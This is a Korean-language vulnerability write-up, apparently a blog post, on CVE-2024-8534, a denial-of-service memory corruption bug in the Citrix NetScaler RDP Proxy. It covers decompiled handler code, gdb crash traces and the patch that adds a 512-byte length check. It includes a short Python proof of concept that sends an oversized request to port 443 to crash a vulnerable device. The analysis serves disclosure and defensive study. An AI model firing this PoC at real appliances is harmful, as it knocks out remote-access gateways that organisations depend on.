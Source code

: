 ```yaml
---
title: "[하루한줄] CVE-2024-8534:Citrix NetScaler RDP Proxy DoS"
author: clalxk
tags: [clalxk, Citrix NetScaler, RDP Proxy, Memory Safety, CVE-2024-8534, DoS]
categories: [1day1line]
date: 2025-1-1 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://www.assetnote.io/resources/research/citrix-denial-of-service-analysis-of-cve-2024-8534

## Target

- NetScaler 54.29

## Explain

Citrix NetScaler의 ‘**RDP Proxy’** 기능은 사용자가 VPN 터널 없이 Citrix Gateway를 통해 RDP 서버에 연결할 수 있도록 지원합니다. 이 기능은 기본적으로 비활성화되어 있지만, 활성화하면 RDP 연결 파일과 세션 토큰을 활용해 인증을 수행합니다.

CVE-2024-8534는 해당 기능의 `RDP 연결 요청 값(길이)을 적절히 검증하지 않아 발생`하는 메모리 손상 취약점으로, 공격자가 조작된 요청을 보내면 DoS를 유발할 수 있습니다.

### nsaaa_rdp_handler

`nsaaa_rdp_handler`는 NetScaler의 RDP Proxy 기능에서 RDP 요청을 처리하는 핵심 함수입니다. 이 함수는 주어진 요청의 데이터를 확인하고, 유효성을 검사하며, 필요한 경우 응답을 생성하거나 후속 처리를 담당합니다. 

```python
// nsaaa_rdp_handler 
uVar14 = *(ushort *)(*(char **)(param_1 + 0xe8) + 2);  // RDP 패킷의 길이 필드 읽기
uVar14 = uVar14 << 8 | uVar14 >> 8;                   // Big Endian 변환
param_2[0xbc] = (uint)uVar14;
if (*(ushort *)(param_1 + 0xf2) < uVar14) {           // 경계 검증 부족
    // 추가 검증 없이 데이터 처리 계속
}
```

위 코드 중, **RDP 헤더의 길이**를 읽고 처리하는 과정에서 취약점이 발견되었습니다.

공격자는 `uVar14` 값을 악의적으로 설정한 패킷을 전송하여 길이 필드 검증을 우회할 수 있습니다.

아래는 `nsaaa_rdp_handler`의 주요 동작 방식입니다.

1. **RDP 패킷 구분**
    
    `nsaaa_rdp_handler`는 **RDP 요청을 구분하기 위해 패킷의 첫 번째 바이트**를 확인합니다. 이 값이 RDP 프로토콜에서 사용되는 특정 값(`\x03`)과 일치하는 경우에만 처리 루틴이 호출됩니다.
    
2. **요청 길이 확인**
    
    함수는 RDP 요청의 **길이를 나타내는 2바이트**를 읽고, 이 값을 Little Endian에서 Big Endian으로 변환하여 내부 변수에 저장합니다.
    
    - 패치 전에는 이 요청 길이 값에 대한 제한이 없었지만, 패치 후에는 요청 길이가 **512 바이트를 초과하는 경우 처리 루틴을 종료**하도록 검증 로직이 추가되었습니다.
3. **패킷의 유효성 검사**
    
    요청 길이와 다른 필드 값을 검사하며, 불완전하거나 비정상적인 요청에 대해서는 **즉시 정리(cleanup) 루틴을 호출**하고 처리 과정을 종료합니다.
    
4. **데이터 처리**
    
    요청이 유효한 경우, RDP 요청의 특정 데이터를 추출하고 이를 기반으로 **인증(authentication)** 및 **타겟 정보 처리(target resolution)** 작업을 수행합니다.
    
5. **결과 반환 및 후속 처리**
    - 요청이 성공적으로 처리되면, RDP 연결을 설정하거나 해당 요청의 결과를 반환합니다.
    - 처리 중 오류가 발생할 경우, 에러 메시지를 생성하고 로그 파일(`/var/log/ns.log`)에 기록합니다.

```
Program received signal SIGBUS, Bus error.
0x0000000001dd8a6d in ?? ()
(gdb) bt
#0  0x0000000001dd8a6d in ?? ()
#1  0x000000000145fdcc in ?? ()
#2  0x00000000013b1e3a in ?? ()
#3  0x00000000013bfc6d in ?? ()
#4  0x00000000013afd76 in ?? ()
#5  0x00000000006c9519 in ?? () <- **nsaaa_rdp_handler**
```

페이로드 크기를 설정하는 `uVar14`가 실제 패킷 크기와 일치하지 않으며, 공격자가 이를 조작하면  메모리를 손상시킬 수 있습니다. 위 크래시는 주로 **잘못된 포인터 역참조**로 인해 발생하며, 요청이 처리되는 도중 다양한 위치에서 크래시가 발생했습니다.

해당 크래시를 분석하면, 아래와 같은 2가지를 알아낼 수 있습니다.

1. 요청 길이인 2바이트가 처리 과정에서 Big Endian으로 변환된 후, 해당 값이 512 바이트를 초과하는 경우에도 제한 없이 처리
    
    ```
    (gdb) x/i $rip
    => 0x1dd8a6d:     mov    QWORD PTR [rax],rcx
    (gdb) x/i $rax
       0x414141414141416b:    Cannot access memory at address 0x414141414141416b
    ```
    
2. 크래시 지점에서 메모리 쓰기가 시도되었고, 페이로드의 일부가 메모리 주소 레지스터에 저장된 것을 확인

### **PoC**

```python
import socket

# 조작된 RDP 요청 생성
payload = b"A" * 4000  # 허용된 길이를 초과하는 페이로드
header = b"\x03\x00" + len(payload).to_bytes(2, 'big')  # RDP 헤더 생성
request = header + payload

# 타겟 시스템으로 요청 전송
sock = socket.socket()
sock.connect(("TARGET_IP", 443))  # TARGET_IP는 취약한 NetScaler 장치의 IP로 변경
sock.sendall(request)
sock.close()
```

분석 내용을 토대로, PoC를 통해 공격자는 NetScaler 장치를 비정상 종료시킬 수 있습니다. 

### 패치된 코드

- **패치 전:**
    
    ```python
    uVar14 = *(ushort *)(*(char **)(param_1 + 0xe8) + 2);
    uVar14 = uVar14 << 8 | uVar14 >> 8;
    param_2[0xbc] = (uint)uVar14;
    if (*(ushort *)(param_1 + 0xf2) < uVar14) { // 경계 체크가 없음
    ```
    
    `nsaaa_rdp_handler`는 요청 길이에 대한 제한이 없기에 매우 긴 요청이 전달될 경우, 메모리 커럽션이 발생할 수 있었습니다. 이는 버퍼 오버플로우 및 비정상적인 메모리 접근 문제로 이어질 가능성을 높였습니다.
    
- **패치 후:**
    
    ```python
    uVar14 = *(ushort *)(*(char **)(param_1 + 0xe8) + 2);
    uVar14 = uVar14 << 8 | uVar14 >> 8;
    param_2[0xbc] = (uint)uVar14;
    if (0x200 < uVar14) { // 길이 필드가 512를 초과하는지 확인
        _DAT_036cfe40 = _DAT_036cfe40 + 1;
        FUN_009d6770(param_2,0x11f);
        goto LAB_006c67d2;
    }
    ```
    
    요청 길이가 512 바이트를 초과하는 경우, **추가 처리를 건너뛰고 정리(cleanup) 루틴으로 이동하도록 제한**이 추가되었습니다. 
    
